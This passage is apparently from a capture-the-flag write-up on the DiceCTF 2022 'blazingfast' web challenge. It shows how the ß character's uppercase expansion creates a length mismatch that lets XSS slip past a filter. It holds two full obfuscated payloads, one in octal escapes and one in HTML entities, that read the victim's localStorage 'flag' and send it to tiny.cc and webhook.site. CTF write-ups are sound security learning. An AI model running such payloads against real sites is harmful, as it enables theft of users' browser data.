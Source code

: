 Now things got complicated in this path since we found no method to replicate this on the admin bot :(


### TOCTOU on string length

We tried many things with special characters and unicode, looking at the documentation for toUpperCase, but missed the great ß character.
Check out the great [writeup on this task](https://brycec.me/posts/dicectf_2022_writeups#blazingfast)

Main idea is that ß character has length of 1, but when converted to uppercase in JS, it converts to "SS", 2 char length:

<p align="center">
    <img src="/images/writeups/DiceCTF2022/Web/2_03.png" width="30%"/>
</p>

Then we have to add at least, the same number of ß as our payload:

```html
https://blazingfast.mc.ax/?demo=ßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßß<img src=x onerror=[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\154\157\143\141\164\151\157\156\56\150\162\145\146\75\47\150\164\164\160\72\57\57\164\151\156\171\56\143\143\57\67\60\160\157\165\172\77\143\75\47\53\154\157\143\141\154\123\164\157\162\141\147\145\56\147\145\164\111\164\145\155\50\47\146\154\141\147\47\51")()>
```

As seen in other writeups, we can also use XML encoding for the characters instead of octal:

```html
https://blazingfast.mc.ax/?demo=ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X6c;&#X6f;&#X63;&#X61;&#X74;&#X69;&#X6f;&#X6e;.&#X68;&#X72;&#X65;&#X66;=&#X27;https://webhook.site/9ed73e58-c688-47c5-9ec8-826693de1421?q=&#X27.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;()&#X2B;&#X6c;&#X6f;&#X63;&#X61;&#X6c;&#X53;&#X74;&#X6f;&#X72;&#X61;&#X67;&#X65;.&#X67;&#X65;&#X74;&#X49;&#X74;&#X65;&#X6d;(&#X27;flag&#X27;.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;())>
```
